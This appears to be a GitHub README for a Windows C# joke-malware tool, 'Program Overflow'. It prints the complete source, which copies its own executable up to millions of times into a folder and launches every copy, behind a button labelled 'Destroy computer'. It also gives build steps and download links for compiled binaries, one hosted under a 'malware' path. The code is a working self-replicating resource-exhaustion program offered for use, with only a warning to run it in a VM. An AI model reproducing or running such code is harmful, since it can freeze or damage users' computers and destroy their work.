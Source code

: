 # Lumito's Program Overflow
Program Overflow is an utility that makes lots of copies of it to later run them. It's DANGEROUS!!! Please use it in a VM.
I'm not responsible of any damage this tool can make to your computer. Use it at your own risk.

![Program overflow image](https://lumitoluma.github.io/images/ProgramOverflow1.1.png)

## Uses of this tool:
1. Test your VM speed and durability.
2. Destroy it!

## Source code analysis:

This is the Form1.cs file, which is the most important one in this project:

```C#
using System.IO;
using System.Windows.Forms;

namespace ProgramOverflow
{
    public partial class Form1 : Form
    {
        byte counterRipPc;
        byte counterRunPrograms;
        byte RunPrograms;
        short x;
        int i;
        int ProgressBar1Value;

        public Form1()
        {
            InitializeComponent();
            counterRipPc = 0;
            counterRunPrograms = 0;
            RunPrograms = 0;
        }

        private void Button1_Click(object sender, System.EventArgs e)
        {
            // Checks if directory exists and make variables
            button1.Enabled = false;
            progressBar1.Value = 0;
            string domainupdowntext = numericUpDown1.Text;
            int NumberOfCopies = int.Parse(domainupdowntext);
            if (!Directory.Exists("C:\\ProgramOverflow"))
            {
                Directory.CreateDirectory("C:\\ProgramOverflow");
            }
            progressBar1.Maximum = NumberOfCopies * 100;
            ProgressBar1Value = progressBar1.Maximum / NumberOfCopies;
            for (i = 1; i <= NumberOfCopies; i++) // Makes the copies
            {
                progressBar1.Value += ProgressBar1Value;
                string destinationFile = "C:\\ProgramOverflow\\Program" + i + ".exe";
                var process = System.Diagnostics.Process.GetCurrentProcess();
                string fullPath = process.MainModule.FileName;
                if (!File.Exists(destinationFile))
                {
                    File.Copy(fullPath, destinationFile, true);
                }
                if (RunPrograms == 1)
                {
                    System.Diagnostics.Process.Start(destinationFile);
                }
            }
            progressBar1.Value = progressBar1.Maximum;
            button1.Enabled = true;
            label1.Text = "Done!!!";
        }

        private void RadioButton1_CheckedChanged(object sender, System.EventArgs e)
        {
                checkBox1.Enabled = true;
                checkBox2.Enabled = true;
        }

        private void CheckBox1_CheckedChanged(object sender, System.EventArgs e)
        {
            if (counterRipPc == 0)
            {
                numericUpDown1.Maximum = 999999;
                label6.Text = "Nº of copies: (Max 999999)";
                counterRipPc = 1;
            }
            else
            {
                numericUpDown1.Maximum = 9999;
                label6.Text = "Nº of copies: (Max 9999)";
                label10.Text = " ";
                counterRipPc = 0;
            }
        }

        private void CheckBox2_CheckedChanged(object sender, System.EventArgs e)
        {
            if (counterRunPrograms == 0)
            {
                RunPrograms = 1;
                counterRunPrograms = 1;
                button1.Text = "Destroy computer";
            }
            else
            {
                RunPrograms = 0;
                counterRunPrograms = 0;
                button1.Text = "Start";
            }
        }

        private void Label7_Click(object sender, System.EventArgs e)
        {
            if(counterRipPc == 1 && x == 0)
            {
                x = 1;
            }
            else
            {
                x = 0;
            }
        }

        private void Label8_Click(object sender, System.EventArgs e)
        {
            if (x == 1)
            {
                x = 2;
            }
            else
            {
                x = 0;
            }
        }

        private void Label9_Click(object sender, System.EventArgs e)
        {
            if (x == 2)
            {
                x = 3;
            }
            else
            {
                x = 0;
            }
        }

        private void Label10_Click(object sender, System.EventArgs e)
        {
            if (x == 3)
            {
                x = 0;
                numericUpDown1.Maximum = 9999999;
                label6.Text = "Nº of copies: (Max 9999999)";
                label10.Text = "Enjoy!";
            }
            else
            {
                x = 0;
            }
        }
    }
}
```

## Building source code:
1. `git clone` the repository or download it using download button.
2. Use `msbuild` to build the repository. If you use the `msbuild` that is included in .NET framework 4.8, you'll just to run `msbuild` to compile it. If you use Visual Studio's `msbuild` you'll need to run `msbuild /p:Configuration=Release /p:Platform="Any CPU"` to build it.
3. Check the bin\Debug or Release folder and search for Program Overflow executable.
4. Done!!! Enjoy using Lumito's Program Overflow!

## Downloading compiled source code:
You can download compiled source code here:

[![Download](https://lumitoluma.github.io/images/Download.png)](https://lumitoluma.github.io/malware/lumitotools/ProgramOverflow1.1.exe)

## Acknowledgements:
Thanks a lot to Endermanch for making those amazing videos that helped me to learn mor about computing and for the first version of ProgramOverflow. You can visit his github in the next link [github.com/endermanch](https://github.com/endermanch), his youtube in this link [youtube.com/endermanch](https://www.youtube.com/endermanch) and the download his ProgramOverflow [here](https://dl.malwat.ch/software/ProgramOverflow.zip) (Passowrd: mysubsarethebest).

And for you for using my software!

Hope you enjoy using it.

#### © 2020, Lumito Luma
